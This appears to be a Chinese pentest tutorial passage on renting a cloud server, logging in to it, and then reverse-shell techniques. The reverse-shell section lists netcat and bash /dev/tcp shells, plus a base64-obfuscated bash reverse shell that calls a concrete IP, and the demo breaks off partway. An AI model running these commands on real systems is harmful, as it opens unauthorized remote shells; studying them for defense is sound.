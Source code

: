 3.阿里云：[https://www.aliyun.com/](https://www.aliyun.com/)

服务器和我们个人PC电脑最大的区别就是具有公网ip，实际效果就是任意用户皆可达我们的服务器（可ping通），而个人PC电脑绝大多数情况是无法实现该功能的。详细购买流程以及产品讯息可与对应客服探讨，成功购买后即可使用ssh（服务器自带的远程连接工具）或电脑自带的远程桌面功能进行服务器登录

**1.ssh登录**

ssh软件推荐termius

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831396412-e3a9bf8f-8cc7-4bd9-9437-3a7bdeb0a083.png)

从厂家获取账号密码以及公网ip后将其填入1，2，3处，然后点击4处即可远程连接到服务器

**2.电脑自带远程桌面功能登录**（常用于win系统）

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831397558-86cf5648-0c45-4fad-9610-eacbfb653dca.png)

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831396313-69fd5f2c-0456-4de2-a886-de99a6f7c6a1.png)

在此界面输入公网ip，稍后再输入厂家给予的账号密码即可登录成功

###### 反弹手法

**1.nc反弹**

```
正向连接：
linux靶机:nc -e /bin/bash -lvvnp 端口
win靶机:nc -e cmd -lvvnp 端口     
攻击机:nc 靶机ip 端口

反向连接：
linux靶机:nc -e /bin/bash 攻击机ip 端口
win靶机:nc -e cmd 攻击机ip 端口
攻击机:nc -lvvnp 端口
```

**2.bash反弹**

```
攻击机:nc -lvvnp 端口
靶机:bash -c "bash -i >& /dev/tcp/攻击机ip/攻击机监听的端口 0>&1"
数组版靶机（java源码）:bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTAuNDEuMTcuMTgzLzI1MCAwPiYx}|{base64,-d}|{bash,-i}
```

示例演示

1.在靶机**可达的机器（可ping通，如公网服务器或同网段机器）**上监听端口

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831396436-ceab62f6-d155-4335-8e59-6649e6dcb84e.png)

2.在靶机上执行bash反弹命令

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831396975-bdab4365-9a2a-416c-98d0-8e9546024157.png)

3.查看刚刚监听端口的服务器
